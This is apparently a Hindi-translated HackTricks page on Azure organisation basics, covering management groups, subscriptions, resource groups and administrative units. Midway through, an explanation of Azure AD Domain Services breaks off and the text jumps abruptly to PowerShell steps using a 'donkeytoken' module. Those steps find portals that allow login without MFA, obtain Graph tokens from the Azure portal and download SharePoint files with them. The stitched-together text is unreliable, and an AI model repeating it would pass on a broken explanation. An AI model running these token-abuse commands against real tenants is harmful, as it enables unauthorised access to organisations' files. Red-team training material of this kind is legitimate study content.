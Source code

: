 # Az - मूल जानकारी

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से नायक तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## संगठन पदानुक्रम

<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

### प्रबंधन समूह

यदि आपके संगठन में **कई Azure सब्सक्रिप्शन** हैं, तो आपको उन **सब्सक्रिप्शनों** के लिए **पहुँच प्रबंधन**, नीतियों और अनुपालन को कुशलतापूर्वक **प्रबंधित** करने का एक तरीका चाहिए हो सकता है। **प्रबंधन समूह** सब्सक्रिप्शनों के ऊपर एक **शासन क्षेत्र** प्रदान करते हैं।

ध्यान दें कि एकल निर्देशिका में **10,000 प्रबंधन समूह** का समर्थन किया जा सकता है और एक प्रबंधन समूह वृक्ष **छह स्तरों की गहराई** तक का समर्थन कर सकता है।

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

प्रत्येक निर्देशिका को एक **शीर्ष-स्तरीय प्रबंधन समूह जिसे रूट** कहा जाता है, दिया जाता है। रूट प्रबंधन समूह हायरार्की में बनाया गया है ताकि **सभी प्रबंधन समूह और सब्सक्रिप्शन इसमें समाहित हो सकें**। यह रूट प्रबंधन समूह निर्देशिका स्तर पर **वैश्विक नीतियों और Azure भूमिका असाइनमेंट्स** को लागू करने की अनुमति देता है। [Azure AD **ग्लोबल एडमिनिस्ट्रेटर** को खुद को इस रूट समूह के **यूजर एक्सेस एडमिनिस्ट्रेटर भूमिका में उन्नत करना होगा](https://learn.microsoft.com/en-us/azure/role-based-access-control/elevate-access-global-admin)। पहुँच उन्नत करने के बाद, प्रशासक अन्य निर्देशिका उपयोगकर्ताओं या समूहों को हायरार्की प्रबंधित करने के लिए किसी भी Azure भूमिका को असाइन कर सकते हैं। प्रशासक के रूप में, आप रूट प्रबंधन समूह के मालिक के रूप में **अपने खुद के खाते को असाइन कर सकते हैं**।

रूट प्रबंधन समूह को **नहीं हटाया जा सकता या स्थानांतरित नहीं किया जा सकता**, अन्य प्रबंधन समूहों के विपरीत।

प्रबंधन समूह आपको किसी भी प्रकार के सब्सक्रिप्शनों के लिए उद्यम-स्तरीय प्रबंधन प्रदान करते हैं। हालांकि, **एक ही प्रबंधन समूह के भीतर सभी सब्सक्रिप्शनों** को **एक ही Azure Active Directory (Azure AD) टेनेंट** पर भरोसा करना होगा।

<figure><img src="../../.gitbook/assets/image (1) (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Azure सब्सक्रिप्शन

Azure सब्सक्रिप्शन एक **तार्किक कंटेनर** है जिसका उपयोग Azure में संबंधित व्यावसायिक या तकनीकी **संसाधनों को प्रावधान** करने के लिए किया जाता है। यह आपके सभी संसाधनों के **विवरणों को धारण करता है** जैसे कि वर्चुअल मशीनें (VMs), डेटाबेस, और अधिक। जब आप Azure में एक संसाधन जैसे कि VM बनाते हैं, तो आप उस **सब्सक्रिप्शन की पहचान करते हैं जिससे यह संबंधित है**। यह आपको भूमिका-आधारित पहुँच-नियंत्रण तंत्रों के माध्यम से पहुँच प्रत्यायोजित करने की अनुमति देता है।

### संसाधन समूह

संसाधन समूह एक **कंटेनर** है जो Azure समाधान के लिए **संबंधित संसाधनों को धारण करता है**। संसाधन समूह में समाधान के लिए सभी संसाधन शामिल हो सकते हैं, या केवल वे **संसाधन जिन्हें आप एक समूह के रूप में प्रबंधित करना चाहते हैं**। आम तौर पर, उन **संसाधनों को जोड़ें** जो **एक ही जीवनचक्र** को साझा करते हैं ताकि आप उन्हें एक समूह के रूप में आसानी से तैनात कर सकें, अपडेट कर सकें, और हटा सकें।

सभी **संसाधनों** को **एक संसाधन समूह के भीतर होना चाहिए** और केवल एक समूह के सदस्य हो सकते हैं और यदि कोई संसाधन समूह हटा दिया जाता है, तो उसके भीतर के सभी संसाधन भी हटा दिए जाते हैं।

### प्रशासनिक इकाइयाँ

प्रशासनिक इकाइयाँ आपको अपने संगठन को **विभाजित** करने की अनुमति देती हैं **किसी भी इकाई** में जो आप चाहते हैं, और फिर **विशिष्ट प्रशासकों को असाइन करें** जो केवल उस इकाई के सदस्यों को **प्रबंधित कर सकते हैं**। उदाहरण के लिए, आप प्रशासनिक इकाइयों का उपयोग करके एक बड़े विश्वविद्यालय में प्रत्येक स्कूल के प्रशासकों को अनुमतियाँ प्रत्यायोजित कर सकते हैं, ताकि वे इंजीनियरिंग स्कूल में केवल पहुँच को नियंत्रित कर सकें, उपयोगकर्ताओं को प्रबंधित कर सकें, और नीतियाँ सेट कर सकें।

केवल **उपयोगकर्ता**, **समूह** और **उपकरण** ही **प्रशासनिक इकाई** के **सदस्य** हो सकते हैं।

इसलिए, एक **प्रशासनिक इकाई** में कुछ **सदस्य** होंगे और अन्य **सिद्धांतों** को उस प्रशासनिक **इकाई पर अनुमतियाँ असाइन की जाएंगी** जिनका उपयोग वे प्रशासनिक इकाई के सदस्यों को **प्रबंधित करने के लिए कर सकते हैं**।

## Azure बनाम Azure AD बनाम Azure AD डोमेन सेवाएँ

यह महत्वपूर्ण है कि **Azure AD** Azure के **भीतर** एक सेवा है। **Azure** Microsoft का **क्लाउड प्लेटफॉर्म** है जबकि **Azure AD** Azure में एक उद्यम **पहचान** **सेवा** है।\
इसके अलावा, **Azure AD Windows Active Directory की तरह नहीं है**, यह एक पहचान सेवा है जो एक पूरी तरह से अलग तरीके से काम करती है। यदि आप अपने Windows Active Directory वातावरण के लिए Azure में एक **डोमेन कंट्रोलर चलाना चाहते हैं** तो आपको
```powershell
Import-Module 'C:\Users\Administrador\Desktop\Azure\Modulos ps1\donkeytoken' -Force
```
**प्रत्येक पोर्टल का परीक्षण करें** यदि MFA के बिना **लॉगिन करना संभव हो** to:
```powershell
Test-MFA -credential $cred -Verbose -Debug -InformationAction Continue
```
<figure><img src="../../.gitbook/assets/2023-03-06 17_02_47-.png" alt=""><figcaption></figcaption></figure>

क्योंकि **Azure** **portal** पर कोई **प्रतिबंध नहीं है**, इसलिए पोर्टल एंडपॉइंट से किसी भी सेवा के लिए **टोकन एकत्रित करना संभव है जिसे पिछले निष्पादन द्वारा पहचाना गया था**। इस मामले में Sharepoint की पहचान की गई थी, और इसे एक्सेस करने के लिए टोकन की मांग की गई है:
```powershell
$token = Get-DelegationTokenFromAzurePortal -credential $cred -token_type microsoft.graph -extension_type Microsoft_Intune Read-JWTtoken -token $token.access_token
```
टोकन को Sites.Read.All (Sharepoint से) अनुमति प्राप्त है:

<figure><img src="../../.gitbook/assets/2023-03-06 17_11_43-Window.png" alt=""><figcaption></figcaption></figure>

यदि आप MFA के कारण वेब से Sharepoint तक पहुँच नहीं सकते हैं, तो भी उत्पन्न टोकन का उपयोग करके फाइलों तक पहुँचना संभव है:
```powershell
$data = Get-SharePointFilesFromGraph -authentication $token $data[0].downloadUrl
```
<figure><img src="../../.gitbook/assets/2023-03-06 17_28_26-Window.png" alt=""><figcaption></figcaption></figure>

फाइलें डाउनलोड करने के लिए URL प्राप्त करें:

<figure><img src="../../.gitbook/assets/2023-03-06 17_28_50-Window.png" alt=""><figcaption></figcaption></figure>

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/governance/management-groups/overview](https://learn.microsoft.com/en-us/azure/governance/management-groups/overview)
* [https://learn.microsoft.com/en-us/azure/cloud-adoption-framework/ready/azure-best-practices/organize-subscriptions](https://learn.microsoft.com/en-us/azure/cloud-adoption-framework/ready/azure-best-practices/organize-subscriptions)
* [https://abouttmc.com/glossary/azure-subscription/#:\~:text=An%20Azure%20subscription%20is%20a,the%20subscription%20it%20belongs%20to.](https://abouttmc.com/glossary/azure-subscription/)
* [https://learn.microsoft.com/en-us/azure/role-based-access-control/overview#how-azure-rbac-determines-if-a-user-has-access-to-a-resource](https://learn.microsoft.com/en-us/azure/role-based-access-control/overview#how-azure-rbac-determines-if-a-user-has-access-to-a-resource)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>
